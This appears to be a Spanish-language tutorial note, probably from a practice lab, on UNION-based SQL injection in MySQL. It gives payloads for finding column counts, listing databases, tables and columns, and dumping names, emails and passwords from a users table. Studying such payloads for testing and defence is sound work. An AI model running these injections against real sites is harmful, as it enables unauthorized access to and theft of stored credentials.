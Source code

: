 # Enumerando una base de datos

Para enumerar la base de datos usaremos la sentencia `UNION`. Una sentencia `UNION` sólo puede operar sobre sentencias `SELECT` con igual número de columnas.

## Número de columnas con `ORDER BY`

El número más grande antes de que falle la consulta es el número de columnas

```sql
ORDER BY 1
ORDER BY 2
ORDER BY 3
ORDER BY 4
```
## Número de columnas con `UNION`
Hay que probar llenando la consulta con números (1,2,3,4) o strings ("junk") hasta que no de error

```sql
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
UNION SELECT 1,2,3,4
UNION SELECT "junk"
UNION SELECT "junk","junk"
UNION SELECT "junk","junk","junk"
UNION SELECT "junk","junk","junk","junk"
```
## Listar bases de datos, base de datos en uso, usuario y versión

```sql
UNION SELECT schema_name,database(),user(),@@version FROM INFORMATION_SCHEMA.SCHEMATA
```

## Listar tablas de la base de datos

```sql
UNION SELECT TABLE_NAME,2,3,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='sqli'
```

## Listar columnas de una tabla

```sql
UNION SELECT COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users'
```

## Obtener filas de una tabla
```sql
UNION SELECT name,email,password,4 FROM sqli.users
```